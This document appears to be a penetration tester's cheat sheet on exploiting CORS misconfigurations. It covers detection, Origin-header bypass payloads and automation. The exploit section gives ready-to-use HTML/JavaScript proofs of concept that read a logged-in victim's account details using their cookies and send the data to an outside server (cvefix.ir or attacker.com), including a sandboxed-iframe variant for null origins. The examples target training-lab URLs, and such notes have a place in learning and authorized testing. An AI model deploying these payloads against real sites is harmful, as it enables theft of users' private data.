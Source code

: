 # Basic
- **Site:** eTLD + 1  →  `cvefix.ir`
  - `SameSite: None`: The cookie will be sent between different sites.
  - `SameSite: Lax`: The cooke will be sent between different sites, just for `GET` requests with *Top-Level-Navigation*.
     - Top-Level-Navigation is redirection by click on a link.
     - `<img>`, `<iframe>` and `<script>` do not cause top-level navigation. 
- **Origin:** scheme://Host:Port  →  `https://cvefix.ir:443`
  - Can be checked with `console.log(origin)`
  - SOP permits scripts on first web page to access data in a second web page, if both web pages have the same origin.
  - browser set the `origin` header and it can't be spoofed by JavaScript.
  - SOP does not work for `<script>`, `<img>`
- Developers use *postMessage*, *JSONP* and *CORS* to remove restriction of SOP.

# Detection
- The web-app must work with **Cookies** (NOT token) that has `SameSite = None`.
- Find a path that returns users sensitive information.
- The request to the above path must be simple (not preflight):
  - Verb: `GET` or `POST` or `HEAD`
  - No custom header
  - Content-Type: `application/x-www-form-urlencoded` or `multipart/form-data` or `text/plain`. (NOT `json`)
- Set `Origin: target.tld` header in all requests. (use the *same URL* and not attacker.com)
- Check for existance of these headers in resposne:
  ```bash
  Access-Control-Allow-Origin: target.tld
  Access-Control-Allow-Credentials: True
  ```
- Then try bypass methods.

# Bypass
- `Origin` payloads for `https://domain.tld` & `https://subdomain.domain.tld`
  ```html
  https://target.tld.attacker.com
  https://target.tldattacker.com 
  https://attacker.comtarget.tld
  https://subdomain.attackertarget.tld
  https://subdomain.target.attacker.tld
  https://subdomain.targetattacker.tld
  null
  attacker.computer
  https://target.tld%60.attacker.com
  https://foo@attacker.tld:80@target.tld
  https://foo@evil-host%20@target.tld
  ```
- If there is no bypass try fuzz different `[FUZZ].target.tld[FUZZ]` in `origin` header.
  - Don't brute force blindly and first extract all subdomains of target and make a list.
  - Check the list to see what is the whitelist.
  - Try to find XSS in the subdomains to extract data from target domain. (Can be used for XSS pots exploitation)
  
# Exploit
- Deliver these codes to a user that is logged-in in the vulnerable web-app. (*cvefix.ir* should server on *https*)
  - **XMLHttpRequest**: Run `tail -f /var/log/nginx/access.log` in VPS to see target's data.
    ```html
    <!DOCTYPE html>
    <html>
    <body>
    <h2>test</h2>
    <script>
    function loadXMLDoc() {
       var xhttp = new XMLHttpRequest();
       xhttp.onreadystatechange = function() {
          if (this.readyState == 4 && this.status == 200) {
             var xhttp2 = new XMLHttpRequest();
             xhttp2.open('GET', 'https://cvefix.ir/?data=' + escape(this.responseText));
             xhttp2.send();
          }
       };
       xhttp.open('GET', 'https://0a65001c04c61b3280636ca200b30023.web-security-academy.net/accountDetails');
       xhttp.withCredentials = true;
       xhttp.send();
    }
    loadXMLDoc();
    </script>
    </body>
    </html>
    ```
  - **fetch**
    ```html
    <!DOCTYPE html>
    <html>
    <body>
    <h2>test</h2>
    <script>
    function loadDoc() {
      fetch('https://0acf00b50382d89a824e422b00f800dc.web-security-academy.net/accountDetails', { credentials: 'include' })
        .then(response => response.text())
        .then(data => {
          fetch(`https://cvefix.ir/?data=${encodeURIComponent(data)}`);
        });
    }
    loadDoc();
    </script>
    </body>
    </html>
    ```
- Exploiting `Origin: null`: The sandbox attribute is used to generate a null origin request by preventing the iframe from inheriting the origin of the parent page.  
  ```html
  <!DOCTYPE html>
  <html>
  <body>
  <h2>test</h2>
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','https://0aa2004e04b0d9548084a3c500730027.web-security-academy.net/accountDetails',true);
      req.withCredentials = true;
      req.send();
      function reqListener() {
          location='https://cvefix.ir/?key='+encodeURIComponent(this.responseText);
      };
  </script>"></iframe>
  </script>
  </body>
  </html>
  ```
- Little JS exploit to use in browser console:
  ```javascript
  fetch("https://domain.tld/api/information/me", {
      credentials: "include"
  })
  .then((response) => {
      document.location = "//attacker.com/log?key={0}".format(response.text());
  });
  ```

# Automation
- Assets  →  FLinks  →  HTTPX  →  CORS Misconfiguration
  ```bash
  cat assets | while read domain; do httpx -H "Origin: https://$domain" -sr -silent; done
  ```

# Tip
- In Firefox we should click on {separ} icon next to url and disable *Enhanced Tracking Protection*
- CORS occur on the URL (not domain), so we should check all pathes for this vulnerability. (All pathes should extracted by *Burp manually* and *FLink*)
- It does not matter if site uses CORS or not.
- CORS on the site is rare because it will be discoverd quickly. We should find CORS on a whitlisted subdomain that have **XSS** vulnerability.
- `Access-Control-Allow-Origin: *` is not exploitable, as CORS doesn’t allow credentials, including cookies, authentication headers, or client-side certificates, to be sent with requests.


# Resource
- https://book.hacktricks.xyz/pentesting-web/cors-bypass
- https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration
